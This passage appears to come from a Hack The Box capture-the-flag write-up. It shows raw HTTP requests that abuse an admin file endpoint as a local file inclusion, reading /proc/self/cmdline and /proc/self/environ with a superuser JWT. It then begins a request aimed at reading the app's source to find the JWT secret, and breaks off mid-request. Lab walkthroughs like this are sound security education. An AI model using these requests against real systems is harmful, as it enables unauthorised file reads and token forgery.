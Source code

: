 ```http
Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU5NjMzMjE5LCJpYXQiOjE2NTg5NDIwMTksInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.6pBW4BPGXUva9_et2wRTmi69Iy9h7Oxs4vssoNTXh2s

{
  "file": "/proc/self/cmdline"
}
```
And as a response we get:  
```http
HTTP/1.1 200 OK
date: Wed, 27 Jul 2022 17:15:15 GMT
server: uvicorn
content-length: 175
content-type: application/json
Connection: close

{"file":"/home/htb/uhc/.venv/bin/python3\u0000-c\u0000from multiprocessing.spawn import spawn_main; spawn_main(tracker_fd=5, pipe_handle=7)\u0000--multiprocessing-fork\u0000"}
```
To try to enumerate more about directories where this app is running, we can use `/proc/self/environ`:
```http
POST /api/v1/admin/file HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.161/docs
Content-Type: application/json
Origin: http://10.10.11.161
Content-Length: 34
Connection: close
Sec-GPC: 1
Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU5NjMzMjE5LCJpYXQiOjE2NTg5NDIwMTksInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.6pBW4BPGXUva9_et2wRTmi69Iy9h7Oxs4vssoNTXh2s

{
  "file": "/proc/self/environ"
}
```
And we can see:  
```http
HTTP/1.1 200 OK
date: Wed, 27 Jul 2022 17:14:01 GMT
server: uvicorn
content-length: 420
content-type: application/json
Connection: close

{"file":"APP_MODULE=app.main:app\u0000PWD=/home/htb/uhc\u0000LOGNAME=htb\u0000PORT=80\u0000HOME=/home/htb\u0000LANG=C.UTF-8\u0000VIRTUAL_ENV=/home/htb/uhc/.venv\u0000INVOCATION_ID=2ed503a8b75f4a35abcb85deb7853626\u0000HOST=0.0.0.0\u0000USER=htb\u0000SHLVL=0\u0000PS1=(.venv) \u0000JOURNAL_STREAM=9:17334\u0000PATH=/home/htb/uhc/.venv/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\u0000OLDPWD=/\u0000"}
```
As we can see the app is running in `/home/htb/uhc/app` and the main file id `main.py`.  
Since we have an LFI, we can look at the source and see if the JWT secret is configured there:  
```http
POST /api/v1/admin/file HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
```